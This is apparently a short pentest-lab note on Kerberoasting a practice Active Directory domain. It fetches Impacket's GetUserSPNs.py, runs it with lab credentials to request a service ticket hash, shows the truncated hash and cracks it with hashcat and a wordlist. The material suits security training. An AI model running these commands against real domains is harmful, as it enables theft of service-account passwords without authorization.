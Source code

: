 **This tool is part of impacket suite.**
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
```
Here we attempt to get Service Principle Names and encrypted ticket.
```python
python3 GetUserSPNs.py MARVEL.local/groot:Password1 -dc-ip 192.168.111.129 -request
```
![[Pasted image 20211227203629.png]]
`$krb5tgs$23$*SQLService$MARVEL.LOCAL$MARVEL.local/SQLService*$fc60....015e`
Then we just crack the hash.
```bash
hashcat.exe -m 13100 kerberoast.txt rockyou.txt -O
```
![[Pasted image 20211227204632.png|2000]]